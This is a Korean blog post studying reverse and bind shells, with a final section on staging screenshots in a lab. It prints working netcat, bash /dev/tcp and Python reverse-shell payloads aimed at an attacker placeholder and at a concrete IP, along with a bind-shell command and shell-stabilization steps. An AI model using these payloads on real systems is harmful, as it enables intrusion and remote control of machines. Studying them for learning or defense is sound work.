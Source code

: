 ```yaml
---
layout: post
title: "리버스 쉘과 바인드 쉘 공부"
date: 2025-09-05 17:00:00 +0900
categories: [시스템 해킹]
---
```


### 1. 개요

리버스 쉘은 공격 대상이 공격자에게 연결을 시작하는 방식이고, 바인드 쉘은 공격 대상에 리스너를 열어 공격자가 직접 연결하는 방식이다.

두 가지 모두 원격에서 쉘을 획득하는 방법이지만, 연결을 시작하는 주체와 방화벽 우회 가능성에서 차이가 있다.

---

### 2. 바인드 쉘 (Bind Shell)

*   **동작 원리:**
    1.  공격자는 대상 서버에 악성 코드를 실행시켜 특정 포트(예: 4444)를 열고 연결을 기다리도록 만든다. (리스너 실행)
    2.  공격자는 자신의 PC에서 대상 서버의 IP와 열린 포트로 직접 접속하여 쉘을 획득한다.
*   **페이로드 예시 (netcat):**
    ```bash
    # 대상 서버에서 실행
    nc -lvnp 4444 -e /bin/bash
    ```
    *   **한계:**
    대상 서버의 방화벽이 외부에서 내부로 들어오는 4444번 포트 연결(Inbound)을 차단하면 공격이 실패한다. 대부분의 네트워크 환경에서 이 방식은 차단될 가능성이 높다.

---

### 3. 리버스 쉘 (Reverse Shell)

*   **동작 원리:**
    1.  공격자는 자신의 PC에서 특정 포트(예: 4444)를 열고 연결을 기다린다. (리스너 실행)
    2.  대상 서버에서 악성 코드를 실행시켜 공격자 PC의 IP와 포트로 연결을 시도하도록 만든다.
*   **장점:**
    방화벽은 일반적으로 내부에서 외부로 나가는 연결(Outbound)은 허용하는 경우가 많기 때문에, 바인드 쉘보다 성공 확률이 훨씬 높다.

#### **리버스 쉘 실행 3단계**

#### **1단계: 공격자 PC에서 리스너 설정**
가장 먼저 대상 서버로부터의 연결을 받을 준비를 해야 한다. `netcat`을 이용해 특정 포트를 열고 연결을 기다리는 리스너를 실행한다.
```bash
# 4444번 포트에서 연결을 대기하며 상세 정보를 출력
nc -lvnp 4444
```
*   **-l**: 리스닝 모드로 동작한다.
*   **-v**: 상세한 정보(연결 상태 등)를 출력한다.
*   **-n**: IP 주소를 숫자로만 사용하고 DNS 조회를 하지 않는다. (속도 향상)
*   **-p**: 사용할 포트 번호를 지정한다.

#### **2단계: 대상 서버에서 페이로드 실행**
대상 서버의 환경에 맞는 페이로드를 실행하여 공격자 PC로 연결을 시도한다. `revshells.com`과 같은 사이트를 이용하면 다양한 환경의 페이로드를 쉽게 생성할 수 있다.

*   **Bash:** `bash -i >& /dev/tcp/[Attacker IP]/4444 0>&1`
*   **Python:** `python3 -c 'import socket,os,pty;s=socket.socket();s.connect(("[Attacker IP]",4444));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("/bin/bash")'`

#### **3단계: 쉘 안정화 (Stabilization)**
처음 획득한 쉘은 자동 완성(`Tab`), 명령어 히스토리(`↑`, `↓`), `Ctrl+C` 등이 동작하지 않는 불안정한 쉘(Dumb Shell)이다. 이를 상호작용이 가능한 완전한 TTY 쉘로 업그레이드하는 과정이 필요하다.

   ![Reverseshell](/assets/images/Reverse_1.png)

1.  **TTY 쉘 생성:**
    `python`이나 `script` 명령어를 이용해 TTY(단말기) 환경을 생성한다.
    ```bash
    python3 -c 'import pty; pty.spawn("/bin/bash")'
    ```
2.  **터미널 제어권 확보:**
    현재 쉘을 백그라운드로 보내고(`Ctrl+Z`), 로컬 터미널의 설정을 조정한 뒤 다시 포어그라운드로 가져와 터미널 제어 신호를 넘겨준다.
    ```bash
    # (Ctrl+Z 입력)
    stty raw -echo; fg
    # (Enter 두 번 입력)
    ```
3.  **환경 변수 설정:**
    터미널의 종류(`TERM`)와 크기(`stty rows/cols`)를 로컬 터미널과 동일하게 맞춰주어 `clear`나 텍스트 편집기 같은 전체 화면 애플리케이션이 정상적으로 동작하도록 설정한다.

<hr class="short-rule">





### 시각 자료(이미지) 제작을 위한 스크립트

#### **쉘 업그레이드 전/후 비교 이미지 제작**

이 이미지는 제한된 쉘과 완전한 TTY 쉘의 차이점을 명확하게 보여주는 핵심 자료입니다.

**1. "Before" 이미지 (제한된 쉘)**

1.  (준비) 두 개의 터미널 창을 엽니다. 하나는 **공격자 PC(Attacker)** 다른 하나는 **대상 서버(Target)** 역할입니다.
2.  **공격자 PC** 터미널에서 리버스 쉘 리스너를 실행합니다.
    ```bash
    nc -lvnp 4444
    ```
3.  **대상 서버** 터미널에서 공격자 PC로 리버스 쉘을 연결하는 명령어를 실행합니다.
    ```bash
    bash -i >& /dev/tcp/192.9.200.12/4444 0>&1
    ```
4.  **공격자 PC** 터미널에 연결이 수립되고, `$` 와 같이 매우 단순한 프롬프트가 나타날 것입니다. 이 상태에서 `whoami` 같은 간단한 명령어를 한두 번 실행합니다.
5.  이 단순한 프롬프트가 보이는 **공격자 PC** 터미널 화면을 스크린샷으로 찍어 **`쉘업그레이드_전.png`** 로 저장합니다.

**2. "After" 이미지 (TTY 쉘)**

1.  위 4번 상태의 **공격자 PC** 터미널(리버스 쉘이 연결된 상태)에서, 쉘 업그레이드 명령어를 입력합니다.
    ```bash
    python3 -c "import pty; pty.spawn('/bin/bash')"
    ```
2.  명령어 실행 직후 프롬프트가 `www-data@ubuntu:/var/www/html$` 와 같이 사용자명과 현재 경로가 포함된 완전한 형태로 변경될 것입니다.
3.  변경된 프롬프트가 보이는 **공격자 PC** 터미널 화면을 스크린샷으로 찍어 **`쉘업그레이드_후.png`** 로 저장합니다.

**3. 최종 이미지 편집**

1.  이미지 편집 프로그램(포토샵, 그림판 등)에서 새 캔버스를 엽니다.
2.  왼쪽에 `쉘업그레이드_전.png`를, 오른쪽에 `쉘업그레이드_후.png`를 나란히 배치합니다.
3.  각 이미지 위에 "**Before (Dumb Shell)**"과 "**After (Interactive TTY Shell)**" 텍스트를 추가합니다.
4.  **Before** 이미지에서는 단순한 `$` 프롬프트 부분에 하이라이트를 적용합니다.
5.  **After** 이미지에서는 `python3 -c "..."` 명령어 전체와, 그 결과로 나타난 `www-data@ubuntu:...$` 프롬프트 부분에 하이라이트를 적용하여 원인과 결과를 명확히 보여줍니다.
6.  수정된 이미지를 저장하여 게시글에 삽입합니다.